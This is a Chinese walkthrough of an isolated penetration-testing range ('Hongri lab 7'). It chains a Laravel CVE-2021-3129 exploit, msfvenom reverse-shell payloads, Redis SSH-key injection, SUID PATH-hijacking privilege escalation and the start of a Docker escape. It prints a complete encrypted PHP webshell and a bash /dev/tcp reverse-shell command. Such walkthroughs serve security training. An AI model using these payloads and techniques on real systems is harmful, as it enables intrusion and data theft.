

# 红日靶场七

## 外网

### 网卡配置

```
密码：
buntu1：web web2021
buntu2：ubuntu ubuntu
win7_1：bunny Bunny2021
win7_2：moretz Moretz2021
win2012：Whoami2021
管理员账户：strator Whoami2021
通达OA账户：admin：admin657260
网卡信息
ubuntu1：网卡1：192.168.52.10 外网：192.168.1.135
ubuntu2：网卡1：192.168.52.20 网卡2:192.168.93.10
win7——1：网卡1:192.168.52.30 网卡2:192.168.93.20
win7——2：网卡2:192.168.93.40
win2012：网卡2:192.168.93.30
攻击机kali：192.168.1.128
```


### 服务配置 

靶场中各个主机都运行着相应的服务并且没有自启功能，如果你关闭了靶机，再次启动时还需要在相应 的主机上启动靶机服务： 

```
DMZ区的 Ubuntu 需要启动nginx服务： 
redis-server /etc/redis.conf 开启redis服务
/usr/sbin/nginx -c /etc/nginx/nginx.conf  开启NGINX服务，可能提示端口被占用，证明用已经开启
iptables -F  清空防火墙规则

第二层网络的 Ubuntu需要启动docker容器： 
sudo service docker start 
sudo docker start 8e172820ac78 

第三层网络的 Windows 7 （PC 2）需要启动通达OA： 
C:\MYOA\bin\AutoConfig.exe  运行oa配置
```

1.NGINX


2.docker


3.通达


### 信息搜集

扫描端口


得到22 80 81 6379端口都是开启的

尝试访问

一直没访问到，后来检查发现另一台机子是这台机子的反向代理，要同时开启才能正常访问

这里发现本地NGINX目录没有自己的源码文件，所以猜测是反代


发现是一个laravel框架


根据工具检测，看到开了反向代理


这里在右下角看到了版本信息

### laravel-cve-2021-3129漏洞利用

我们在github上面直接搜索框架的漏洞，找到一个


然后这里我们用linux运行


 这里使用高版本会出错因为新的加密方式，我们使用哥斯拉2.92版本可以直接连接

```
全版本下载链接：
https://github.com/BeichenDream/Godzilla/releases
```


上线成功


这里发现只能执行一些简单的命令，没有过高的权限


通过命令发现，我们处于docker容器中

```
cgroup | grep docker 返回的信息是docker文本字样，依次可以判断我们处于docker容器中
例如：
$ cat /proc/1/cgroup | grep docker
11:name=systemd:/docker/6476c4a8d45867f5d844498f169226aa81f47675a5a564370c60e82de426176c
后面是容器的id
```

这里用kali反弹一个shell出来

```
命令格式为msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.30.133 LPORT=10000 -f exe -o 2.exe 
```

这里我们的就是

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=6666 -f elf > hr7.elf
```



生成成功


通过godzilla上传


尝试msf上线，选择与生成的elf对应的payload


这里默认监听的是4444端口，这里我们也把他改成与elf对应的6666端口

尝试执行


执行失败，猜测是没有执行权限也无法直接赋予

再加上我们处于docker容器中，拿到的权限也是另一台机子的docker容器中的权限

无法从这里入手

我们从前面收集到的信息入手，这里想起来之前收集到的信息中的redis服务开启的6379端口

### redis未授权访问

#### 原理

```
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
```

**产生条件**

```
（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；
（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。 
```

**漏洞危害**

```
（1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
（2）攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
（3）最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器
```

#### 漏洞利用

我这里kali没有安装redis服务

先安装一下

```
sudo apt-get update 
sudo apt-get install redis 
redis-cli ping这里用命令检查一下服务是否运行
sudo systemctl restart redis.service 重启
```


这里我们尝试用命令连接

```
redis-cli -h 192.168.1.135
```


从登录的结果可以看出该redis服务对公网开放，且未启用认证


输入info直接回显信息

这里我们直接尝试本地生成密钥然后覆盖目标主机的密钥

**攻击者在未授权访问redis的情况下，利用redis自身提供的config命令，可以进行写文件的操作，攻击者可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件夹的authotrized_keys文件中，进而可以使用对于私钥直接使用ssh服务登录目标服务器**

```
ssh-keygen -t rsa  #生成公钥
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt  #将公钥导入1.txt文件
cat 1.txt | redis-cli -h 192.168.36.128 -p 6379 -x set hello   #把1.txt文件内容写入目标主机的redis缓冲中
config set dir /root/.ssh                #设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys    #设置保存文件名为authorized_keys
save                                     #将数据保存在目标服务器硬盘上
ssh root@192.168.36.128                       #连接    
```

1.生成公钥


2.将密码写进redis缓冲区


3.覆盖密钥（这里查看dbfilename看是否成功改名）


4.ssh连接


```
注意这里连接ssh的时候要处于root账户，并且是不需要密钥的enter进去就可以了
```


可以发现有两个网卡，目前看到还有一层网络

### getshell

这里我们找到他的私钥


将文件cp出来

然后用finalshell连接


成功连接


这里将之前生成的马子传上去继续使用


这里使用命令

```
nohup command & 表示在后台挂着一直运行
关的时候kill
```


这里msf成功上线，并且是root权限


拿到权限

## 第一层内网

### 添加路由

run get_local_subnets

 run autoroute -p

 run post/multi/manage/autoroute
 

### 二层内网信息搜集

前面拿到Ubuntu的权限

信息搜集发现，有第二个网卡，所以基本确认有内网


发现有192.168.52.20、192.168.52.30，接着对192.168.52.20下的docker下手，因为ubuntu  web1负责开启环境对外网开放，而getshell的机器是的ubuntu web2代理的web环境，并且ubuntu web2不出网

### linux环境变量提权

#### 原理解析

PATH是Linux和类Unix操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

```
其原理就是利用suid的权限调用所属主用户即root用户执行c里的代码
```

使用echo命令显示当前PATH环境变量：

```
echo $PATH
```

如果你在PATH变量中看到**‘.’**，则意味着登录用户可以从当前目录执行二进制文件/脚本，这对于攻击者而言也是一个提权的绝好机会。

解析

```
其原理就是利用suid的权限调用所属主用户即root用户执行c里的代码

$PATH主要用于定义可执行程序的搜索目录。可执行程序包括 Linux系统命令和用户的应用程序

例如：当某个程序 调用 system("cat /flag") 时 它并不是以 system("/bin/cat /flag");这样来调用cat的 可以被利用

系统会按照$PATH环境变量中定义的顺序，从左到右搜索cat 如果$PATH = /tmp:/usr/local/bin:/usr/local/sbin 则会优先搜索 /tmp目录是否存在cat

$PATH环境变量劫持的原理：即自己构造一个同名的恶意程序，将要恶意程序所在的路径添加到PATH环境变量的前面，使其被优先加载。 而如果我们劫持的这个程序，是一个本身就具有SUID权限，以root身份执行的程序，那么 劫持成功的话，就是root执行我们的恶意程序，写入 /bin/bash即可提权
```

#### 案例

现在我们的当前目录是/home/lvxyz，我们将在当前目录下创建一个srcipt目录。然后cd到script目录中，编写一个简单的c程序来调用系统二进制文件的函数


代码 通过 setuid() 和 setgid() 更改uid、gid为0 即 root

然后调用system()函数 执行 ps命令 即系统二进制文件/bin/ps

```shell
root@lvxyz-ubuntu:~/script$ whereis ps
ps: /bin/ps /usr/share/man/man1/ps.1.gz
```

我们使用gcc命令编译demo.c文件并且赋予编译文件SUID权限

```shell
gcc demo.c -o demo
chmod u+s demo
ls -la demo
```


假设我们的ubuntu 是我们已经入侵成功的主机，ssh成功登录lvxyz普通用户了，现在要进行提权

我们利用find命令查找一下具有suid权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

发现了 /home/lvxyz/script/demo

我们运行一下这个文件，发现它会执行 ps命令


##### echo命令

因此 我们就往/tmp写入 一个同名文件，内容为 /bin/bash

```shell
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/lvxyz/script
./demo
```


这里看到成功拿到root权限

##### cp命令

也可以通过 cp /bin/bash /tmp/ps，使得/tmp/ps文件等价于/bin/bash    与上面同理


成功提权root

#####  symlink命令

利用条件：suid权限的文件目录拥有所有权限

利用 symlink 符号链接命令


控制环境变量，最开头加上 .  从而控制环境变量  执行ps时优先找到 ./ps   即 /bin/bash 提权

其他命令同理，比如 c文件里写的 system("cat /etc/passwd")

我们只需重写一个 内容为/bin/sh的 cat，然后控制环境变量使得 某个suid权限的文件里在执行 cat命令时，优先找到我们重写的cat即可提权

关键在于：

- 找到具有SUID权限的文件，知道文件里调用了什么系统二进制文件
- 环境变量中有自己能控制的路径


#### 继续提权

这里拿到的shell是第二台docker容器中的shell


这里可以看到我们当前的path环境变量

这里使用命令枚举出目标系统上所有的可执行文件

所以尝试提权（可能是 docker 环境的原因，内核提权失败），枚举具有SUID权限的所有二进制文件，发现 /home/jobs/shell

```
find / -perm -u=s -type f 2>/dev/null #\
```


这里看到/home/jobs/shell具有suid权限

这里我们用更高版本的哥斯拉连接，以便以一执行一些操作

一句话：（shell.php）

```
<?php

@session_start();			//创建或者重启一个会话
@set_time_limit(0);			//设置程序最长运行时间：永久
@error_reporting(0);			// 关闭错误报告
function encode($D,$K){			//通过密钥对 $D 进行加/解密
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}

$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    //用base64 对 $_POST[$pass] 进行解码，然后通过密钥对返回数据进行加/解密
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);		//将攻击荷载存储到SESSION
        }
    }
}

```

这里用之前版本的哥斯拉上传php


新版本连接成功

上面发现/home/jobs/shell具有suid权限

命令执行


发现是一个ps命令


进行一系列操作

这里由于是docker环境，需要先把shell反弹到ubuntu1再执行操作


```
webshell：bash -c 'exec bash -i >& /dev/tcp/192.168.52.10/1234 0>&1' 
在拿到webshell的终端上：执行将当前命令执行环境反弹到dev/tcp上面
```

这是一个通过webshell执行的命令，它使用bash创建一个反向shell，连接到指定的IP地址（192.168.52.10）和端口（1234）。

    bash -c: bash的-c选项允许你运行一个字符串作为命令。
    
    exec: exec用于替换当前进程的shell，而不启动新的shell。
    
    /dev/tcp/192.168.52.10/1234: /dev/tcp是一个特殊的文件，在Unix系统中，它可以用来建立网络连接。
    
    0>&1: 将标准输入（0）重定向到标准输出（1），这样就可以接收输入并发送到连接的另一端。


改$PATH来执行恶意程序，从而获得目标主机的 root 权限 shell


这里看到id等于0成功拿到root权限

#### docker逃逸

```
判断是否为docker 环境
1、使用下面命令，查看是否存在 dockerrnv 文件
ls -alh /.dockerenv

2、查看系统进程的cgroup信息
cat /proc/1/cgroup
```


查看根目录下面发现有.dockerenv后缀文件，所以判断当前处于docker容器中


查看进程信息

首先查看一下磁盘文件和设备文件，发现有三个磁盘文件和很多个设备文件，将 /dev/sda1 挂载到自己创建的文件夹

```
fdisk -l     #查看磁盘文件
ls /dev      #查看设备文件
cd /
mkdir hello
mount /dev/sda1 /hello 把/dev/sda1挂载在/hello文件下，让linux可读
ls /hello
```


sda1是主分区，是Ubuntu宿主机的磁盘


这里ls dev下的sda1发现不可读，是一个文件

```
linux会把所有硬件设备当做文件处理
```


